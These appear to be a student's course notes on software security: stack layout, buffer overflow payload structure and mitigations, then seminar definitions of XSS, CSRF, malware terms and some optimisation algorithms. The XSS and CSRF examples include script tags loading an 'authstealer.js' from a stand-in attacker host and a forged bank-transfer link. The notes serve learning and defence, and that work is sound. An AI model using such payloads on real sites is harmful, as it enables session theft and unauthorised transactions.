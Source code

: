 # Lecture
## Executable and Linking Format (ELF)

* Collection of headers, segments and sections
* Representation of code and data
* Stored on disk and used to create and start process

## Stack (used for?)

* Lightweight data structure
* Provides functions with static memory (stack frames)
* Not contained within the binary
* Initialized during process startup
* Located at higher end of memory and growing towards lower end
* Maximize space in between

## Stack frame (how can it be used?)

* Contains info about usable memory
* Function's start and end manage each stack-frame
* esp register keeps track of topmost element
* ebp register is used as a reference to point to function arguments and local var
* push instruction to add word-aligned elements
* pop instruction to remove word-aligned elements

## Calling convention (used for?)

- Arg passed via stack
- eip reg passed via stack by CPU
- Function code pushes esp,ebp and other reg
- Results passed back via eax 

## Function call

- khi tạo 1 function thì sẽ add các cái var trong function đó theo stack, theo thứ tự là function->para->return->base  pointer(ebp)->other reg->local var...
- còn trong main sẽ đc fill theo heap

## File execute
![](img/execute_file.png)

- Heap is used for global or extern variable, dynamic variable
- Stack for local variable while calling function

## hack ?

- Attacker controls what is written into buffer
- offset of return with buffer calculatable
- buffer filled with garbage before return
- return points to a callable memory location
- application might crash afterwards
- <img src="img\Function_call.png" style="zoom:67%;" />
- 450 nop-sled (a sequence of [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (no-operation) instructions: is no-operation instruction, the attacker use nop-sled sequence to point to desirable memory address without knowing the exactly address. By pointing to randomly address which contains nop-sled sequence, it will slide through memory space until  desired destination whenever the program [branches](https://en.wikipedia.org/wiki/Branch_instruction) to a [memory address](https://en.wikipedia.org/wiki/Memory_address) anywhere on the slide.)
- 33 byte shellcode: is a injection code to call the bash shell
- 37 junk data
- 4 new return address into nop-sled
-  https://www.youtube.com/watch?v=1S0aBV-Waeo&t=537s (7:40)
- ![](img/buffer_overflow.png)

![](img/overflow.png)

What is buffer overflow

what is stack-based buffer overflow

what is a return add and when it is used

what is a payload and how it is used

what is nop-sled and how it is used

## Mitigation

- Randomize specific memory sections at runtime
  - Candidates sections are: .text,.data,...
  - Offsets within sections do not change
  - Sections have to opt-in
  - Compilerflags to support it
  - Drawback: Only randomize sections. Offsets within section are maintained. Thus leakage of specific pointers can defeat ASLR
  - 32 bits total add
  - Page alignment:12 bits
  - User space
  - mem partition 1 2 3
  - redunction: stack stored in partition one or 2, so effectively 1 bit to guess
  - ->32 - 12 - 1 = 19 bits to guess
- Non excutable: specific segments can be marked as NX
  - Interrupts triggered if such a sections gets executed - > segmentaion fault
  - cpu has to support it
  - compilerflags to support it
  - Draw: do not protected against return oriented approaches
- Stack canaries
  - Magic values placed on stack before stack var
  - Changes with each process invocation
  - Can be checked when leaving functions to prove stack integrity
  - Compilerflags to support it
  - Draw: can potentially leaked, guessed or brute force
- What to do: 
  - use mitigation
  - safe function
  - bounds checking
  - memory-safe programming lang (rust)
  - utilize code analysis (static, dynamic, fuzzing)
  - use modern cpu extension (intel memory protection extensions, control flow enhancement technology)
  
  
# Seminar
- Task1: Define terms and give example:
  - Stored XSS:
    - A persistent XSS, more damage than reflected, the malicious script is injected directly into vulnerable web app, and the script is execute when ever user visit website
    - Directly inject script to html file: `<script> src=”http://hackersite.com/authstealer.js”> </script>.`
  - Reflected XSS:
    - a non-persistent attacks, attacker embedded  malicious script, when user click on the link it will executed 
    - E.g: Inject java script to html tag like: `<a url=http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”/>`
  - DOM-based XSS:
    - Client side attack, the attack will send the page content instead of server with the html file is injected with malicious code 
    - E.g: attacker can inject an addition box in to these form 
		<img src="https://1.bp.blogspot.com/-8Dn99Siwl-U/VA5r4Csc4sI/AAAAAAAADNQ/0yQHSR3ayFI/s1600/dombased-xss-1.png">
		
		By change message=Please fill in the form to `message=<label>Gender</label><div class="col-sm-4"><select class = "form-control" onchange="java_script_:show()"><option value="Male">Male</option><option value="Female">Female</option></select></div><script>function show(){alert();}</script>`
		<img src="https://1.bp.blogspot.com/-AbZldTkY3Hs/VA5r4AQ7xrI/AAAAAAAADNM/PfO4f5HafSg/s1600/dombased-xss-3.png">
  - CSRF:
    - Using authenticated session cookie of user to establish unwanted operation forge the normal user
    - E.g: a attacker's website implement `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>` to take advantage of if the user already login to bank.com and the cookie still store the authentication token
- Task 2: define term:
  - Evolutionary algorithm:
  
	The mechanisms that mimic the biological evolution with reproduction, mutation and recombination factor to find the stronger solution and eliminate the weakest solution.
  - Local search:
  
	The algorithm is to search from solution space by moving around to find the optimal cost or time bound is elapsed. The definition of solution space, or neighbors, is defined by the user, usually related to the current optimal solution found with a few modification.
  - Vertex cover:
  
	Is the set of vertex that can cover all the edge, which mean every edge can be one of directly edge of the node in vertex cover. The minimum vertex cover problem goal  is to find the minimum set of vertices (minimum order) that can cover all edges in the graph.
- Task 3: define term:
  - Companion Virus:
  
	Is a companion virus is a computer virus that stores itself in file named similar to other program but with different extension. When user execute the program, it will run before the true program, hence the user is not recognized 
  - Rootkit:
  
	Is the set of malwares that are designed to give a root access while actively hiding its presence.
  - Back door:
  
	Refer to any method that anybody can able to get around a normal security measure and gain the root access to the system

